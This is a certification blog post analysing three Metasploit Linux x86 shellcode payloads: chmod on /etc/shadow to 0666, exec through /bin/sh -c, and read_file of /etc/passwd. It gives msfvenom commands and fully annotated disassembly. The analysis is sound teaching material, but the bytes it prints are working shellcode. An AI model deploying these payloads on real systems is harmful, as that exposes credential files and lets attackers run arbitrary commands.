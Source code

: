 # 5. Shellcode Analysis

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to analyze three payloads from the Metasploit Framework for Linux on the x86 architecture.

## Analysis of linux/x86/chmod

The linux/x86/chmod payload will change the file permissions on a specified file on the local system. With the default arguments, it will give everyone read and write permissions (0666) on the ``/etc/shadow`` file:

```sh
msfvenom -p linux/x86/chmod | ndisasm -b 32 -

00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

The first part of the shellcode sets up the call to the [chmod](https://man7.org/linux/man-pages/man2/chmod.2.html) system call:

```nasm
; int chmod(const char *pathname, mode_t mode): syscall 0xf
;   chmod("/etc/shadow", 0666)
00000000  99                cdq              ; edx = 0x00000000 if eax >= 0, edx = 0xFFFFFFFF if eax < 0
00000001  6A0F              push byte +0xf
00000003  58                pop eax          ; eax = 15
00000004  52                push edx         ; push 0x00000000/0xFFFFFFFF (?)
00000005  E80C000000        call 0x16        ; push address of "/etc/shadow"
0000000A  "/etc/shadow"
00000016  5B                pop ebx          ; ebx = "/etc/shadow"
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx          ; ecx = 0666
0000001D  CD80              int 0x80         ; perform syscall
```

The second part uses the [exit](https://man7.org/linux/man-pages/man2/exit.2.html) system call to terminate the process:

```nasm
; void _exit(int status)
;   _exit(whatever)
0000001F  6A01              push byte +0x1
00000021  58                pop eax          ; eax = 1
00000022  CD80              int 0x80         ; perform syscall
```

## Analysis of linux/x86/exec

The linux/x86/exec payload will execute a specified command string. For this analysis, the payload is generated with the command string "ls":

```sh
msfvenom -p linux/x86/exec CMD=ls | ndisasm -b 32 -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call 0x20
0000001D  6C                insb
0000001E  7300              jnc 0x20
00000020  57                push edi
00000021  53                push ebx
00000022  89E1              mov ecx,esp
00000024  CD80              int 0x80
```

The shellcode uses the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call to execute a command with ``/bin/sh -c [COMMAND]``:

```nasm
; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
;   execve("/bin/sh", ["/bin/sh", "-c", "ls", 0], 0)
00000000  6A0B              push byte +0xb
00000002  58                pop eax               ; eax = 11
00000003  99                cdq                   ; edx = 0
00000004  52                push edx              ; push 0 (string null-terminator)
00000005  66682D63          push word 0x632d      ; push "-c" reversed
00000009  89E7              mov edi,esp           ; edi = "-c"
0000000B  682F736800        push dword 0x68732f   ; push "/sh" reversed
00000010  682F62696E        push dword 0x6e69622f ; push "/bin" reversed
00000015  89E3              mov ebx,esp           ; ebx = "/bin/sh"
00000017  52                push edx              ; push 0
00000018  E803000000        call 0x20             ; push address of "ls"
0000001D  "ls"
00000020  57                push edi              ; push address of "-c"
00000021  53                push ebx              ; push address of "/bin/sh"
00000022  89E1              mov ecx,esp           ; ecx = ["/bin/sh", "-c", "ls", 0]
00000024  CD80              int 0x80              ; perform syscall
```

## Analysis of linux/x86/read_file

The linux/x86/read_file payload will read a specified file and write it to a file descriptor (standard output by default). For this analysis, the payload is generated with the file path "/etc/passwd":

```sh
msfvenom -p linux/x86/read_file PATH=/etc/passwd | ndisasm -b 32 -

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

The file is opened with the [open](https://man7.org/linux/man-pages/man2/open.2.html) system call:

```nasm
; int open(const char *pathname, int flags): syscall 0x5
;   fd = open("/etc/passwd", 0)
00000000  EB36              jmp short 0x38 ; push "/etc/passwd"
00000002  B805000000        mov eax,0x5    ; eax = 5
00000007  5B                pop ebx        ; ebx = "/etc/passwd"
00000008  31C9              xor ecx,ecx    ; ecx = 0
0000000A  CD80              int 0x80       ; perform syscall
...
00000038  E8C5FFFFFF        call 0x2
0000003D  "/etc/passwd"
```
The file data is then read with the [read](https://man7.org/linux/man-pages/man2/read.2.html) system call and stored on the stack:

```nasm
; ssize_t read(int fd, void *buf, size_t count): syscall 0x3
;   bytes_read = read(fd, stack, 4096)
0000000C  89C3              mov ebx,eax    ; ebx = file descriptor
0000000E  B803000000        mov eax,0x3    ; eax = 3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi    ; ecx = top of stack
00000017  BA00100000        mov edx,0x1000 ; edx = 4096
0000001C  CD80              int 0x80       ; perform syscall
```

The data is then written to standard output with the [write](https://man7.org/linux/man-pages/man2/write.2.html) system call:

```nasm
; ssize_t write(int fd, const void *buf, size_t count): syscall 0x4
;   write(stdout, stack, bytes_read)
0000001E  89C2              mov edx,eax    ; edx = number of bytes read
00000020  B804000000        mov eax,0x4    ; eax = 4
00000025  BB01000000        mov ebx,0x1    ; ebx = 1
0000002A  CD80              int 0x80       ; perform syscall
```

Finally, the process is terminated with the [exit](https://man7.org/linux/man-pages/man2/exit.2.html) system call:

```nasm
; void _exit(int status)
;   _exit(0)
0000002C  B801000000        mov eax,0x1    ; eax = 1
00000031  BB00000000        mov ebx,0x0    ; ebx = 0
00000036  CD80              int 0x80       ; perform syscall
```
